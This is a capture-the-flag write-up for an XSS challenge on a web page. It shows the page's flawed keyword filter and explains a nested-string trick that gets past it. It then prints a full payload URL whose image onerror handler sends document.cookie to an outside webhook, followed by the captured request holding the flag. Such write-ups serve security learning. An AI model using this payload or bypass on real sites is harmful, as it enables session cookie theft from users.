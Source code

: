 # fancy-page
> http://fancy-page.hsctf.com

## About the Challenge
We were given a source code (You can download the source code [here](fancy-page.zip)). Inside the source code there is a JavaScript file called `display.js`. Here is the content of the file

```js
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";

function sanitize(content) {
	return content.replace(/script|on|iframe|object|embed|cookie/gi, "");
}

let title = document.getElementById("title");
let content = document.getElementById("content");

function display() {
	title.textContent = Arg("title");
	document.title = Arg("title");

	let sanitized = sanitize(Arg("content"));
	content.innerHTML = sanitized;

	document.body.style.backgroundColor = Arg("background_color");
	document.body.style.color = Arg("color");
	document.body.style.fontFamily = Arg("font");
	content.style.fontSize = Arg("font_size") + "px";
}

display();
```

As you can see, this is a XSS challenge, but there is some sanitization applied to certain strings, such as `script`, `on`, `iframe`, `object`, `embed`, and `cookie`

## How to Solve?
To bypass the sanitization im using `string within a string`. For example

```
cookie => ""
coocookiekie => "cookie"
```

And here is the payload I used to solve this chall

```
http://fancy-page.hsctf.com/display.html?title=test&content=test%3Cimg/src/oonnerror%3Dlocatioonn.replace(%27https://webhook.site/bbd37165-3069-4602-8ffe-56a1c7e6a8a1%2F%3F%27%2Bdocument.coocookiekie)%3E&background_color=%23ffffff&color=%23000000&font=Helvetica&font_size=16
```

And then check webhook to obtain the flag


[Image extracted text: Request Details
Permalink
Raw content
Expont as
Headers
GET
https Ilwebhook site/bbd37165-3069-4602-8ffe-56a1c7e6a8a1/2flag-flag{filter_fail}
connection
close
Host
104.196.171.82 whois
accept-encoding
gz1p ,
deflate_
Date
06/05/2023 6.06.48 AM (6 days ago)
referer
http:/ /fancy-page.hsctf
com
Size
bytes
sec-fetch-dest
document
407e78db-082b-45ba-99f9-b6ab90c99416
sec-fetch-mode
navigate
sec-fetch-site
cross-site
Files
accept
text/html, application/xhtmltxml,application/xml;q-8
image/avif,imag
user-agent
Mozilla/5.
(X1l;
Linux
x86_64) ApplellebKit/537.36
(KHTML, like Gecko
upgrade-insecure-
requests
host
webhook.site
content-length
content-type
Query strings
Form values
flag
flag{filter_fail}
(empty )
No content]


```
flag{filter_fail}
```